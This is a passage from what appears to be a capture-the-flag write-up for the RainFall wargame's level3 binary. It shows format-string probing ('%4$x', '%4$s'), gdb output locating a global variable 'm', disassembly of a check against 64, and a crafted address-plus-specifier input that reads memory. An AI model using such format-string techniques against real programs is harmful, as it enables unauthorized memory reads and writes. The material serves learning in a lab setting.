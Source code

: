 ```bash
level3@RainFall:~$ ./level3 <<< 'AAAA %4$x'
AAAA 41414141

level3@RainFall:~$ ./level3 <<< 'AAAA %4$s'
Segmentation fault (core dumped)
```

We can read our own string !

#### Overwriting m

```bash
(gdb) info variables
All defined variables:

Non-debugging symbols:
0x080485f8  _fp_hw
0x080485fc  _IO_stdin_used
0x08048734  __FRAME_END__
0x08049738  __CTOR_LIST__
0x08049738  __init_array_end
0x08049738  __init_array_start
0x0804973c  __CTOR_END__
0x08049740  __DTOR_LIST__
0x08049744  __DTOR_END__
0x08049748  __JCR_END__
0x08049748  __JCR_LIST__
0x0804974c  _DYNAMIC
0x08049818  _GLOBAL_OFFSET_TABLE_
0x0804983c  __data_start
0x0804983c  data_start
0x08049840  __dso_handle
0x08049860  stdin@@GLIBC_2.0
0x08049880  stdout@@GLIBC_2.0
0x08049884  completed.6159
0x08049888  dtor_idx.6161
[0x0804988c  m]
```

```bash
(gdb) print "%u", *0x804988c
$3 = 0
```

```bash
   0x080484d5 <+49>:    call   0x8048390 <printf@plt> ; Call printf(eax)
   0x080484da <+54>:    mov    0x804988c,%eax ; set eax to m (= 0): printf "%x", *0x804988c -> "0"
   0x080484df <+59>:    cmp    $0x40,%eax ; Check if eax is equal to 64
```

```bash
level3@RainFall:~$ echo -n -e '\x0d\x86\x04\x08%4$s' > /tmp/input; ./level3  < /tmp/input | xxd
0000000: 0d86 0408 2f62 696e 2f73 68              ..../bin/sh
```
